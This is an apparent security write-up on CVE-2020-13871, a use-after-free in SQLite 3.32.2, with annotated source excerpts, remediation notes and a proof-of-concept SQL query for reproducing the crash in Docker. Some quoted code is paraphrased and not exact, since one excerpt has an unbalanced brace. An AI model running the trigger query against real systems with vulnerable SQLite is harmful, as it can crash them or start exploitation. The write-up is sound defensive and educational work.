


# CVE-2020-13871 CWE-416 SQLite UAF

## Vulnerability Background
- **SQLite:** A lightweight, embedded relational database management system that does not require separate server processes or complex configurations. SQLite stores data directly on the file system, featuring zero configuration, ease of use, and suitability for small applications. It supports standard SQL statements, provides good data security, and is widely used in desktop and mobile app development due to its lightweight nature.
- **Window Function:** The Window Function in SQL is a powerful tool that allows complex analysis and calculation of query results without changing the number of rows in the result set. Unlike traditional aggregation functions, window functions do not merge multiple rows into one but return a calculation result for each row.
- **CWE-416 (Use After Free):** refers to a vulnerability in software that uses already freed memory regions. When the program dynamically allocated memory is released, if the pointer to that memory is not set to invalid (such as NULL), subsequent code may still access the pointer incorrectly. At this point, the memory may have been reallocated for other uses, leading to unpredictable behaviors such as data corruption, program crashes, or code execution. This vulnerability usually stems from improper memory management and is a serious security issue, making it easy for attackers to exploit to undermine program stability and security.

## Vulnerability Mechanism
In SQLite version 3.32.2, when processing SQL queries that contain both **Window Functions** and **DISTINCT aggregation functions** (such as `COUNT(DISTINCT expression)`), **the internal operations are in an incorrect order**, and the window function rewrite operations modify some expressions' memory at incorrect times (after name parsing, before aggregation analysis), while the old pointers of these expressions are still used DISTINCT aggregated parameter list. When `resetAccumulator` tried to use these old pointers, it accessed invalid memory.

**Preliminary SQL Expansion to Create Expr Nodes --> Parse the Parsing Tree by Name and Fill the Aggregate Information --> Due to improper processing order and lag, rewriting the parsing tree related to window functions will clean up those Expr nodes that have already been parsed --> Floating pointer appears in the aggregate information --> Subsequent operations accessed this pointer, CWE-416 (Use After Free)**

## Vulnerability Location
In SQLite 3.32.2, `sqlite3WindowRewrite` (via `selectWindowRewriteExprCb`) will call `sqlite3ExprDelete()` to clean up the substructure of the expression node when processing certain expressions that also serve as DISTINCT aggregation function parameters, and then reuse that node. When the window function override (`sqlite3WindowRewrite`) begins, the expressions in the original SQL parsing tree have already performed a round of name parsing, and some links to specific tables and columns have been established in the `Expr` node. Next, `sqlite3WindowRewrite` makes major structural changes to the partially parsed tree, **modifying or cleaning up `Expr` nodes that have already been parsed (especially if they also appear in parts that need to be rewritten, such as the result column). After this destructive override was completed, SQLite began analyzing the aggregation function in the query and stored relevant information (including pointers to the function and its parameters) into the `AggInfo` structure.

This causes the DISTINCT aggregate parameter list recorded in the `AggInfo` to contain a dangling pointer to a broken expression substructure. When the `resetAccumulator` function attempts to create a `KeyInfo` for these DISTINCT aggregations and **accesses these dangling pointers**, post-release usage occurs.

1. At line 5739 of the src\select.c file, the processing flow for the `sqlite3Select` function is as follows.

In line 5808, the `sqlite3WindowRewrite` function in the call `window.c` is used to rewrite the parse tree of `SELECT` statements containing the window function. This is because window functions (such as `ROW_NUMBER() OVER (...)`, `SUM(x) OVER (PARTITION BY y)`) need to be computed in specific data partitioning and sorting contexts. Calculating these functions directly on the original `SELECT` structure would be very complex.

At line 6636, `resetAccumulator` functions are called to initialize or reset the accumulators for aggregate functions. This is because aggregation functions (such as `COUNT()`, `SUM()`, `AVG()`, and those that can be used as window functions) require some memory units to store intermediate computation results (accumulators) when processing a set of rows. When starting to process a new packet (for `GROUP BY` queries) or before the query starts (for aggregated queries without `GROUP BY`), these accumulators need to be reset to zero or set to their initial state.

```c
// sqlite-version-3.32.2/src/select.c
int sqlite3Select(
  Parse *pParse,         /* The parser context */
  Select *p,             /* The SELECT statement being coded. */
  SelectDest *pDest      /* What to do with the query results */
){
  sqlite3 *db = pParse->db;
  // ... Other initializations ...

  // 1. Initial preparation: Expand wildcards, name parsing, etc
  sqlite3SelectPrep(pParse, p, 0);
  if( pParse->nErr || db->mallocFailed ){
    goto select_end;
  }

  // 2. !! The window function is rewritten here (after name parsing)!!
#ifndef SQLITE_OMIT_WINDOWFUNC
  if( p->pWin ){ // If a window is defined in the Select statement (p->pWin is not null)
    rc = sqlite3WindowRewrite(pParse, p); // Call sqlite3WindowRewrite in window.c
    if( rc ){
      assert( db->mallocFailed || pParse->nErr>0 );
      goto select_end;
    }
  }
#endif

  pEList = p->pEList;
  pTabList = p->pSrc;
  pWhere = p->pWhere;
  pGroupBy = p->pGroupBy;
  pHaving = p->pHaving;
  isAgg = (p->selFlags & SF_Aggregate)!=0; // Check for aggregation or GROUP BY

  // ... (Other settings, such as DISTINCT, ORDER BY processing) ...

  // 3. Aggregation processing logic (if isAgg is true or pGroupBy is not null)
  if( !isAgg && pGroupBy==0 ){
    // Non-aggregated query path
    // ...
    // Call selectInnerLoop
    // ...
  }else{ // Aggregate query paths
    NameContext sNC;
    AggInfo sAggInfo; // Aggregate information structures
    // ...
    memset(&sNC, 0, sizeof(sNC));
    memset(&sAggInfo, 0, sizeof(sAggInfo));
    sNC.pParse = pParse;
    sNC.pSrcList = pTabList;
    sNC.uNC.pAggInfo = &sAggInfo;
    sNC.ncFlags = NC_AllowAgg | NC_AllowWin | NC_UAggInfo;

    // 4. !! Fill in the AggInfo structure (after window rewrite) !!
    // sAggInfo.aFunc[i].pExpr and sAggInfo.aFunc[i].pExpr->x.pList
    // It will be filled here, pointing to an expression (which may have been modified by sqlite3WindowRewrite).
    sqlite3ExprAnalyzeAggList(&sNC, pEList);
    sqlite3ExprAnalyzeAggList(&sNC, sSort.pOrderBy);
    if( pHaving ){
      // ...
      sqlite3ExprAnalyzeAggregates(&sNC, pHaving);
    }
    // ...

    if( pGroupBy ){ // Aggregation with GROUP BY
      // ... (The complex processing logic of GROUP BY) ...
      // addrReset is a tag for the resetAccumulator subroutine
      addrReset = sqlite3VdbeMakeLabel(pParse);
      // ...
      // The resetAccumulator subroutine is called through OP_Gosub during loops or grouping
      // sqlite3VdbeAddOp2(v, OP_Gosub, regReset, addrReset);
      // ...
      // The implementation of the resetAccumulator subroutine
      sqlite3VdbeResolveLabel(v, addrReset);
      resetAccumulator(pParse, &sAggInfo); // < -- Calls resetAccumulator
      // ...
    } else { // Aggregation without GROUP BY (e.g., SELECT COUNT(DISTINCT x) FROM t)
      // ...
      resetAccumulator(pParse, &sAggInfo); // < -- Calls resetAccumulator
      finalizeAggFunctions(pParse, &sAggInfo);
      // ...
      selectInnerLoop(pParse, p, -1, 0, 0, pDest, addrEnd, addrEnd);
    }
    // ...
  }

  // ... (Handles tail logic for ORDER BY, DISTINCT, etc.) ...

select_end:
  // ... (Clearing) ...
  return rc;
}
```

2. In the src\window.c file, line 748, when `sqlite3WindowRewrite` is called, the `selectWindowRewriteExprCb` function will iterate through expressions in `SELECT` statements (mainly result column `p->pEList` and outer `ORDER BY` clause `p->pOrderBy`). If an expression `pExpr` needs to be processed (for example, it is a column reference, an aggregation function, or itself a window function that needs to be moved into a subquery), `selectWindowRewriteExprCb` will be called.

If a `Expr` node (called `pArgDistinct`) as a DISTINCT aggregation parameter, and is also processed by `selectWindowRewriteExprCb` because it is part of the query result column, then:

1. A copy of `pArgDistinct` `pDup` is added to the result list of subqueries.
2. At line 808, the original `pArgDistinct` node cleaned up its child nodes through `sqlite3ExprDelete(db, pArgDistinct)`, which is the **vulnerability point**. If `pArgDistinct` itself is a complex expression (for example, a function call `myFunc(colA)` will have a `x.pList` pointing to parameter `colA`), then its `x.pList` and its `Expr` nodes (such as `colA`) will be released.
3. Then the `pArgDistinct` node itself is `memset` and rewritten as a `TK_COLUMN` node.

At this point, if the parameter list of aggregator function `COUNT` in `AggInfo` still holds `x.pList` pointing to the original `pArgDistinct` (or worse, pointing to the `pArgDistinct` itself, with its contents altered), then these pointers are suspended.

```c
// sqlite-version-3.32.2/src/window.c
static int selectWindowRewriteExprCb(Walker *pWalker, Expr *pExpr){
  struct WindowRewrite *p = pWalker->u.pRewrite; // p->pSub is a list of expressions for subqueries
  Parse *pParse = pWalker->pParse;
  sqlite3 *db = pParse->db;

  // ... (Some conditional judgments and early return logic omitted) ...

  switch( pExpr->op ){
    // ...
    case TK_AGG_FUNCTION: // It can also be a regular aggregate function if it appears in the result column
    case TK_COLUMN: {
      int iCol = -1; // Used to record the index of pExpr in the subquery result column

      // Try to check if pExpr exists in the existing result list p->pSub of the subquery
      if( p->pSub ){
        int i;
        for(i=0; i<p->pSub->nExpr; i++){
          if( 0==sqlite3ExprCompare(0, p->pSub->a[i].pExpr, pExpr, -1) ){
            iCol = i;
            break;
          }
        }
      }

      if( iCol<0 ){ // If pExpr is not in the subquery result list, copy and add it
        Expr *pDup = sqlite3ExprDup(db, pExpr, 0); // Copy the original pExpr
        if( pDup && pDup->op==TK_AGG_FUNCTION ) pDup->op = TK_FUNCTION; // In subqueries, aggregation is usually converted into a regular function reference
        p->pSub = sqlite3ExprListAppend(pParse, p->pSub, pDup); // Add the replica pDup to the list of results for subqueries
        // If memory allocation fails, p->pSub may be NULL
        if (pParse->db->mallocFailed) return WRC_Abort;
        iCol = p->pSub->nExpr-1; // The newly added column is at the end of the subquery result list
      }

      // !! Core destructive operations!!
      // The original pExpr node (which may be the parameters aggregated by DISTINCT) has been modified
      if( p->pSub ){ // Confirm again that p->pSub (subquery result list) has been operated
        assert( ExprHasProperty(pExpr, EP_Static)==0 );
        ExprSetProperty(pExpr, EP_Static);        // Temporary marking prevents the pExpr node itself from being released
        sqlite3ExprDelete(db, pExpr);  // Clean up pExpr's *child nodes* (pLeft, pRight, x.pList, etc.)
// If pExpr is a complex expression used as a parameter for DISTINCT aggregation, such as COUNT(DISTINCT (colA + colB)), then the subexpression (pExpr->pLeft, pExpr->pRight) will be released here. If pExpr is a function with parameters COUNT(DISTINCT myFunc(colA)), pExpr->x.pList may be released.
        ExprClearProperty(pExpr, EP_Static);      // Clear the mark
        memset(pExpr, 0, sizeof(Expr));           // Reset the pExpr node memory to zero

        pExpr->op = TK_COLUMN;                    // Reuse the original pExpr node as a TK_COLUMN type
        pExpr->iColumn = (i16)iCol;               // Points to the iCol column in the subquery results list
        pExpr->iTable = p->pWin->iEphCsr;         // Temporary cursor for window processing
        pExpr->y.pTab = p->pTab;                  // Points to a temporary table structure representing the results of a subquery
      }
      if( db->mallocFailed ) return WRC_Abort;
      break;
    }
    // ...
  }
  return WRC_Continue;
}
```

3. In the src\select.c file, line 5367 `resetAccumulator` function is a key internal function in SQLite used to handle aggregate functions (such as `SUM()`, `AVG()`, `COUNT()`, etc.). Its main function is to reset the memory area used to store intermediate results before performing a new aggregation calculation, ensuring that each aggregation operation starts from a clean state. When `resetAccumulator` processes DISTINCT aggregation, if the memory indicated by the Expr* pointer in pE->x.pList (the parameter list for COUNT) has been cleaned by sqlite3ExprDelete in sqlite3WindowRewrite, then the following call to sqlite3KeyInfoFromExprList will trigger UAF.

```c
/*
** Reset the aggregate accumulator.
**
** The aggregate accumulator is a set of memory cells that hold
** intermediate results while calculating an aggregate.  This
** routine generates code that stores NULLs in all of those memory
** cells.
*/
static void resetAccumulator(Parse *pParse, AggInfo *pAggInfo){
  Vdbe *v = pParse->pVdbe;
  int i;
  struct AggInfo_func *pFunc;
  int nReg = pAggInfo->nFunc + pAggInfo->nColumn;
  if( nReg==0 ) return;
  if( pParse->nErr ) return;
#ifdef SQLITE_DEBUG
  /* Verify that all AggInfo registers are within the range specified by
  ** AggInfo.mnReg..AggInfo.mxReg */
  assert( nReg==pAggInfo->mxReg-pAggInfo->mnReg+1 );
  for(i=0; i<pAggInfo->nColumn; i++){
    assert( pAggInfo->aCol[i].iMem>=pAggInfo->mnReg
         && pAggInfo->aCol[i].iMem<=pAggInfo->mxReg );
  }
  for(i=0; i<pAggInfo->nFunc; i++){
    assert( pAggInfo->aFunc[i].iMem>=pAggInfo->mnReg
         && pAggInfo->aFunc[i].iMem<=pAggInfo->mxReg );
  }
#endif
  sqlite3VdbeAddOp3(v, OP_Null, 0, pAggInfo->mnReg, pAggInfo->mxReg);
    for(pFunc=pAggInfo->aFunc, i=0; i<pAggInfo->nFunc; i++, pFunc++){
      if( pFunc->iDistinct>=0 ){ // If it's DISTINCT aggregation,
        Expr *pE = pFunc->pExpr; // pE points to an aggregate function node (e.g., COUNT)

        KeyInfo *pKeyInfo = sqlite3KeyInfoFromExprList(pParse, pE->x.pList,0,0);
        sqlite3VdbeAddOp4(v, OP_OpenEphemeral, pFunc->iDistinct, 0, 0,
                          (char*)pKeyInfo, P4_KEYINFO);
      }
    }
  }
}
```

## Remediation
 Advance the `sqlite3WindowRewrite()` call timing to `sqlite3SelectPrep()`, and before `sqlite3ResolveSelectNames()` ****. This ensures that window function structure adjustments occur before name parsing and aggregate analysis, and subsequent operations are based on a stable parsing tree, avoiding pointer failure.

## Affected Versions
 SQLite 3.32.2

## Environment Setup
Start the Docker environment with SQLite version 3.32.2



## Vulnerability Reproduction
1. Enter the container command line and create a new database `test_db`

```bash
docker exec -it sqlite-3.32.2 bash
sqlite3 test_db
```

2. Create a new table `a` with a column of `b`

```sql
CREATE TABLE a(b);
```

3. Create a query:

Subquery `(SELECT b FROM a GROUP BY b HAVING (...))`:

- `GROUP BY b`: Group Table `a` according to the values of column `b`.
- `HAVING (...)`: Applies conditional filtering to each group.

Window function `COUNT() OVER()`:

- Used to count the number of rows in the current window.

Window function `LEAD(b) OVER(ORDER BY SUM(DISTINCT b) + b)`:

- `LEAD(b)`: Used to get the value of column `b` in a row after the current row.
- `OVER(ORDER BY SUM(DISTINCT b) + b)`: Defines the window sorting method, but uses the aggregator function `SUM(DISTINCT b)` in the `ORDER BY` clause, which triggers the vulnerability.

`UNION SELECT 99`：

- Merge the previous query result with a row with a value of `99`.

`ORDER BY 1`：

- Sort according to the first column of the result set.

```sql
   CREATE TABLE a(b);
   SELECT
      (SELECT b FROM a
        GROUP BY b
        HAVING (SELECT COUNT()OVER() + lead(b)OVER(ORDER BY SUM(DISTINCT b) + b))
      ) 
    FROM a
  UNION
   SELECT 99
    ORDER BY 1;
```



## PoC Analysis

```sql
   CREATE TABLE a(b);
   SELECT
      (SELECT b FROM a
        GROUP BY b
        HAVING (SELECT COUNT()OVER() + lead(b)OVER(ORDER BY SUM(DISTINCT b) + b))
      ) 
    FROM a
  UNION
   SELECT 99
    ORDER BY 1;
```

Under normal circumstances, the return result is 99.

The presence of window functions `COUNT() OVER()` and `lead(b) OVER(...)` forcibly triggers `sqlite3WindowRewrite`.

`b` as a parameter of `SUM(DISTINCT b)`, its corresponding `Expr` node also participates in the `ORDER BY` clause of the `lead` function, and this clause `ORDER BY` is `sqlite3WindowRewrite` focused on handling objects (which need to be moved into newly generated subqueries, and references in the original `lead` function are replaced).

Because `sqlite3WindowRewrite` in SQLite 3.32.2 executes after some name parsing but before the aggregate information is fully stable, it modifies the `b` expression nodes during rewriting, so that subsequent `resetAccumulator` will use this DISTINCT when processing `SUM(DISTINCT b)` When the aggregation operation initializes, it calls `sqlite3KeyInfoFromExprList`, causing the `AggInfo` to access a `b` expression pointer that has been broken or its substructure has been released, triggering use-after-free.

## References
[NVD - CVE-2020-13871](https://nvd.nist.gov/vuln/detail/CVE-2020-13871)

[SQLite: View Ticket --- SQLite: View Ticket](https://sqlite.org/src/info/c8d3b9f0a750a529)

[SQLite: Check-in [0b42a2277e\]](https://sqlite.org/src/info/0b42a2277e5bf527)
